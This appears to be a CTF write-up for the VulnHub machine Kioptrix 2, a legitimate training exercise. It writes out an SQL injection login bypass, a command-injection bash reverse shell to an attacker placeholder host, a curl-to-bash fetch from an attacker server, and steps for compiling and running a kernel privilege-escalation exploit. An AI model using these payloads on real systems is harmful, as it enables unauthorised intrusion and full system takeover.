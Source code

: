 ```yaml
---
title: "Kioptrix 2"
date: 2024-05-05
draft: false
summary: "Writeup for Kioptrix level 2 of the Kioptrix series challenge on VulnHub."
tags: ["linux", "command injection", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/kioptrix2/cover.png"
  caption: "Kioptrix 2 VulnHub Challenge"
  alt: "Kioptrix 2 cover"
platform: "VulnHub"
---
```


*Kioptrix-2* is the second challenge in the *Kioptrix* series. The object of the game is to acquire root access via any means possible.
<!--more-->
You can download *kioptrix-2* by clicking on the link given below:
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

## Recon

I performed a network scan using **nmap** to find the target IP address.

```shell
nmap -sn 192.168.1.0/24
```

After finding the target IP, I launched an **nmap** aggressive scan to find open ports, services running on the ports and additional information about those services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 111      | rpc         |
| 443      | https       |
| 631      | ipp         |
| 658      | cups        |
| 3306     | mysql       |

![](https://cdn.ziomsec.com/kioptrix2/1.png)
![](https://cdn.ziomsec.com/kioptrix2/2.png)
![](https://cdn.ziomsec.com/kioptrix2/3.png)

> The _unauthorized_ label next to the SQL server indicated that remote login was disabled and hence the server could only be accessed locally.

## Initial Foothold

Since port 80 was open, I visited the web application on my browser and found a login page.

![](https://cdn.ziomsec.com/kioptrix2/4.png)

After trying a few default credentials, I tried performing an SQL injection using some simple payloads. When I entered the below payload in the *username* field, I was able to bypass the entire authentication mechanism.

```
admin' or 1=1#
```

![](https://cdn.ziomsec.com/kioptrix2/5.png)

After logging in, I got access to a page that allowed me **ping** a machine. I entered the IP of my router and got the ping results in another page.

![](https://cdn.ziomsec.com/kioptrix2/6.png)

![](https://cdn.ziomsec.com/kioptrix2/7.png)

The application displayed raw output of the **ping** command. This made me wonder if it was actually executing a system command on the provided input. If it were doing so, I could add another system command and try making it execute that as well.

```
8.8.8.8; ls
```
> `;` is used to execute multiple commands in a single line on linux systems. There are many other ways of executing multiple together.

![](https://cdn.ziomsec.com/kioptrix2/8.png)

The command that I injected got executed and I was able to view the contents present in the directory being used by the application. Hence I used a **bash** reverse shell payload from **revshells** to get a reverse shell from the target on my listener.
 - https://www.revshells.com/

![](https://cdn.ziomsec.com/kioptrix2/9.png)

I then started a netcat listener on my PC using **nc**.

```bash
rlwrap nc -lnvp 443
```

Finally I executed the payload and got reverse shell

```shell
8.8.8.8; bash -i >& /dev/tcp/KALI_IP/PORT 0>&1
```

![](https://cdn.ziomsec.com/kioptrix2/10.png)

I got a shell as a service user.

## Privilege Escalation

### Enumeration

While exploring, I discovered two users, _john_ and _harold_. However, I couldn't access their directories.

![](https://cdn.ziomsec.com/kioptrix2/11.png)

To ease up enumeration, I downloaded the **linux Smart Enumeration** script on the target system and ran it.

```shell
# after downloading lse.sh on local system, start an http server
python3 -m http.server 8080

# run it on the target by piping the output of curl to bash
curl http://KALI:8080/lse.sh | /bin/bash
```

![](https://cdn.ziomsec.com/kioptrix2/12.png)

![](https://cdn.ziomsec.com/kioptrix2/13.png)

I found the following SUID binaries, but unfortunately, they didn't seem exploitable.

![](https://cdn.ziomsec.com/kioptrix2/14.png)

I double-checked my kernel version:

```shell
uname -a
```

![](https://cdn.ziomsec.com/kioptrix2/15.png)

The **lse** script also revealed that the target was running **CentOS**, so I searched for exploits related to it on **Exploit DB**.

```shell
searchsploit 'Centos 2.6.9'
```

![](https://cdn.ziomsec.com/kioptrix2/16.png)

### Exploiting Kernel

I downloaded the exploit and transferred it to the target system.

```shell
# on local system
searchsploit -m 'linux_x86/local/9542.c'
python3 -m http.server 8080

# on target system
wget http://KALI:8080/9542.c
```


![](https://cdn.ziomsec.com/kioptrix2/17.png)

![](https://cdn.ziomsec.com/kioptrix2/18.png)

After downloading it, I compiled it using **gcc** and ran it to get a shell as **root**.

```shell
gcc 9542.c
./a.out
```

![](https://cdn.ziomsec.com/kioptrix2/19.png)

## Closure

Here's how I pwned Kioptrix-2:
- First, I spotted port 80 running on the target.
- Visiting it revealed a login panel.
- I bypassed the authentication mechanism with SQL injection and landed on a page that allowed to perform ping.
- I then exploited a command injection vulnerability and got a reverse shell.
- Finally, a kernel exploit got me root access.

That's it from my side :) Happy Hacking!

---
